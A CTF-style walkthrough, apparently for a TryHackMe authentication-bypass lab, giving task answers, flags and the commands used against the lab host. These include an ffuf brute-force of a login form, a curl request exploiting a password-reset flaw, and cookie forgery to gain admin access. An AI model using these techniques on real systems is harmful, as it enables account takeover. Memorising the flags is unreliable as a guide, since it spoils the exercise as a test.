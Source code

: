 # Authentication Bypass

![banner](imgs/Authentication%20Bypass/roomBanner.png)

## Room objectives

## Tasks

### Task 1 : Brief

<details>
<summary>
I have started the machine.
</summary>

```
No answer needed
```

</details>

---

### Task 2 : Username Enumeration

<details>
<summary>
What is the username starting with si*** ?
</summary>

![T2_1](imgs/Authentication%20Bypass/T2_1.png)

<br>

![T2_2](imgs/Authentication%20Bypass/T2.png)

```
simon
```

</details>

<br>

<details>
<summary>
What is the username starting with st*** ?
</summary>

```
steve
```

</details>

<br>

<details>
<summary>
What is the username starting with ro**** ?
</summary>

```
robert
```

</details>

---

### Task 3 : Brute Force

<details>
<summary>
What is the valid username and password (format: username/password)?
</summary>

1. create .txt file with valid usernames
2. run `ffuf -w vUsers.txt:W1,10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.69.170/customers/login -fc 200`

![T3](imgs/Authentication%20Bypass/T3.png)

```
steve/thunder
```

</details>

---

### Task 4 : Logic Flaw

<details>
<summary>
What is the flag from Robert's support ticket?
</summary>

1. create customer account `{username}`
2. run `curl 'http://10.10.69.170/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'`
3. you will receive an ticket with id press on id
4. follow link in message to open robert account.
5. you will find ticket with the flag.

![T3](imgs/Authentication%20Bypass/T3.png)

```
THM{AUTH_BYPASS_COMPLETE}
```

</details>

---

### Task 5 : Cookie Tampering

<details>
<summary>
What is the flag from changing the plain text cookie values?
</summary>

1. edit cookies using `curl -H "Cookie: logged_in=true; admin=true" http://10.10.69.170/cookie-test`

![T5](imgs/Authentication%20Bypass/T5.png)

```
THM{AUTH_BYPASS_COMPLETE}
```

</details>

<br>

<details>
<summary>
What is the value of the md5 hash 3b2a1053e3270077456a79192070aa78 ?
</summary>

1.open [crackStation](https://crackstation.net/)

```
463729
```

</details>

<br>

<details>
<summary>
What is the base64 decoded value of VEhNe0JBU0U2NF9FTkNPRElOR30= ?
</summary>

1.open [CyberChef](https://gchq.github.io/CyberChef/)

```
THM{BASE64_ENCODING}
```

</details>

<br>

<details>
<summary>
Encode the following value using base64 {"id":1,"admin":true}
</summary>

1.open [CyberChef](https://gchq.github.io/CyberChef/)

```
eyJpZCI6MSwiYWRtaW4iOnRydWV9
```

</details>
